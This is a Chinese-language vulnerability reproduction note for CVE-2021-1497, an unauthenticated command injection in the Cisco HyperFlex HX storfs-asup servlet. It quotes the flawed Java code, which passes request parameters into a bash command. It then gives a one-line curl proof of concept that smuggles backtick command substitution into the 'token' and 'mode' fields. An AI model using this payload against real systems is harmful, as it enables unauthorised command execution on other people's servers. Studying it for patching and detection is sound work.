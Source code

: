 # Cisco HyperFlex HX storfs-asup 远程命令执行漏洞 CVE-2021-1497

## 漏洞描述

思科在研究人员Nikita Abramov和Mikhail Klyuchnikov发现的HyperFlex HX数据平台中修复了两个Unauth RCE和一个任意文件上载

## 漏洞影响

<a-checkbox checked>Cisco HyperFlex HX</a-checkbox></br>

## 漏洞复现

出现漏洞的代码

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```



POC为

```plain
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-9.png)

